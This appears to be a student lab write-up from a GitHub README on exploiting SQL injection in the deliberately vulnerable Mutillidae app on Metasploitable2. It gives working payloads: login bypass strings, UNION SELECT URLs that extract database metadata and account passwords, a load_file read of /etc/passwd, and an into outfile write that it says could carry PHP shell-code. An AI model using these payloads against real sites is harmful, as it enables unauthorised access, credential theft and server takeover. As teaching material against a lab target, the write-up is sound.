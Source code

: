 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![325657525-5d072558-8cfd-437f-839b-f491e2351bfc](https://github.com/pradeepasri26/sqlinjection/assets/131433142/91d38cf4-7261-4878-9c71-1724992006ed)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![325657622-28300288-17b2-4d70-b1d6-3ee0a018feac](https://github.com/pradeepasri26/sqlinjection/assets/131433142/baea06ec-f598-4e58-8971-9075a635be44)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![325657717-262a0baa-afa6-41d8-a0da-47b7cc4c5064](https://github.com/pradeepasri26/sqlinjection/assets/131433142/7eb6f9e6-bf60-4bcd-880c-b0ee52169c99)
Click on the menu Login/Register and register for an account
![325657806-cccb4d70-5d32-49a9-b7a2-c6607c283c59](https://github.com/pradeepasri26/sqlinjection/assets/131433142/5e50537d-a76a-4c01-abce-7b748fc8f6ca)
Click on the link “Please register here”
![325657884-46eba855-7aa9-4d47-9850-30a245a2a76d](https://github.com/pradeepasri26/sqlinjection/assets/131433142/4c275f89-7aed-4a8d-a982-f06197f2ba5d)
Click on “Create Account” to display the following page
![325657969-cb7680e8-8069-4289-88dd-48c982251980](https://github.com/pradeepasri26/sqlinjection/assets/131433142/090badfa-881b-4c42-b4e5-4e0c037aedd1)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:
($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![325658073-de7691c2-6b5c-446e-8c60-f93887b9fcc1](https://github.com/pradeepasri26/sqlinjection/assets/131433142/e9bd9257-5df2-4d1b-9448-d29e0c6a413c)
Click “Login”. The logged in page will show as below:
![325658149-5166ecc3-20f0-4ad6-83d5-ec9406b88479](https://github.com/pradeepasri26/sqlinjection/assets/131433142/a0b9be05-0d47-4e5f-a85e-171803756883)
Bypassing login field
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”
Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![325658297-a93a6bdb-b7ab-4a94-ba98-dc5b0d0e2ee6](https://github.com/pradeepasri26/sqlinjection/assets/131433142/a4b597c5-733a-4a79-be07-08db50834432)
Click the login button and you will see it enter into the administrator page.
![325658372-b7b5d131-fcc9-4084-8173-4cb7fe583f0b](https://github.com/pradeepasri26/sqlinjection/assets/131433142/c53ed745-89e2-4ea2-bc4f-b99bcff1a7cf)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” After logging out, Now choose the menu as shown below

![325659156-c0bbbd4b-b1d1-4f88-b68b-c49962f7c5c6](https://github.com/pradeepasri26/sqlinjection/assets/131433142/ed692090-a94d-4649-91f7-832557d6c24a)
![325659228-4a23cbda-e95d-401b-863b-17356523aa32](https://github.com/pradeepasri26/sqlinjection/assets/131433142/f4a9d297-0723-48d3-85ef-29ed77f38824)
![325659315-3659e291-8c8d-42ef-8b97-7d013eba1725](https://github.com/pradeepasri26/sqlinjection/assets/131433142/69e12e90-e470-46e2-b5f7-0023c4ad590d)
![325659403-832ae9e4-aa1f-4bc2-80d8-0279af80c82c](https://github.com/pradeepasri26/sqlinjection/assets/131433142/b6ccf61d-4fa8-4b31-b0b7-8305c7599ef7)
![325659478-37e5a6fa-51cf-40c7-b33e-28b6d7ccb109](https://github.com/pradeepasri26/sqlinjection/assets/131433142/01523eee-2a66-4776-8cb2-366f1d77fafb)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![325659617-08512259-59b7-487b-9e1d-e6bc0a37dbae](https://github.com/pradeepasri26/sqlinjection/assets/131433142/cd807a3d-4a16-47a0-9bc0-95578dad990c)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.
The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![325659859-7e932a84-99b5-4b27-a7e4-0bb732ca8290](https://github.com/pradeepasri26/sqlinjection/assets/131433142/af01eef3-148b-4a93-94e7-94b815bd7340)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![325659955-4c68e9ec-cb59-44dc-8a1f-3e56b3af0041](https://github.com/pradeepasri26/sqlinjection/assets/131433142/92c6eaae-156f-4d7b-adf8-268c47e5d09f)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![325660091-daadc619-ff42-4c80-b4f3-846d4f8c1ced](https://github.com/pradeepasri26/sqlinjection/assets/131433142/5e28b185-ba4f-4ca6-8d3e-c5eafa1105a7)
As it is having 5 columns the query worked fine and it provides the correct result
![325660277-66a57a6f-0bf7-4bfd-bb4a-96a6aae3dc7a](https://github.com/pradeepasri26/sqlinjection/assets/131433142/1c131d98-1b5f-4221-9e19-c567aab00d8d)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![325660562-8d42416e-2ba9-4fdf-a24f-b1c4f75a7231](https://github.com/pradeepasri26/sqlinjection/assets/131433142/d6df498b-cd3d-4b30-b7f4-5eae6f23467b)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![325660664-64cccd61-4c32-44d5-b146-133df4cefbd9](https://github.com/pradeepasri26/sqlinjection/assets/131433142/23e4c2ee-c204-4658-9c78-2c7b082584be)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![325660765-8d2cf032-acc3-43f8-925d-f32ed0bf113e](https://github.com/pradeepasri26/sqlinjection/assets/131433142/43360278-c4d0-4c0a-ad5f-4d57108381bc)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![325660845-bda602fd-6721-4d3c-8a06-1997773608d3](https://github.com/pradeepasri26/sqlinjection/assets/131433142/70faccc5-468e-4ea6-8124-fda9ceace43a)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![325660962-7e2d45fc-92cf-4973-a51a-4ad7b6132d07](https://github.com/pradeepasri26/sqlinjection/assets/131433142/6decfa12-727f-4450-b3dd-1f379b8c7b3b)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![325661053-5dfa03df-fb62-420e-94c4-218e55944dcc](https://github.com/pradeepasri26/sqlinjection/assets/131433142/8413565a-6e8d-4682-a66f-71d7215adf58)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![325661146-a196e92c-39a6-45d9-9f5e-aad62c02d897](https://github.com/pradeepasri26/sqlinjection/assets/131433142/876c9aed-a000-4bf0-afe4-20b9ef109227)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![325661369-ce52fb71-a979-4e73-93fc-64c9a2678cd9](https://github.com/pradeepasri26/sqlinjection/assets/131433142/f6ac4e0c-3bd2-4331-9c17-ed2df2c37732)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

